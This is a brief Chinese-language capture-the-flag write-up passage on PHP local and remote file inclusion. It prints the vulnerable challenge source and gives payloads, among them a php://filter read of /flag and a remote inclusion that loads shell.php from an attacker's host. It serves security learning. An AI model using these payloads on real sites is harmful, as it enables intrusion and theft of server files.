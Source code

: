 **解题思路**

尝试用php://input任意命令执行，但无果，应该是allow_url_include关闭了。

![](./img/rce2.png)

读取源码的话用php://filter
``?file=php://filter/resource=/flag``

### 远程文件包含

**题目源码**
```php
<?php
error_reporting(0);
if (isset($_GET['file'])) {
    if (!strpos($_GET["file"], "flag")) {
        include $_GET["file"];
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
```

**解题思路**

- 解法一：跟文件包含方法一样
- 解法二：``?file=http://<your:ip>/shell.php``

![](./img/rce3.png)
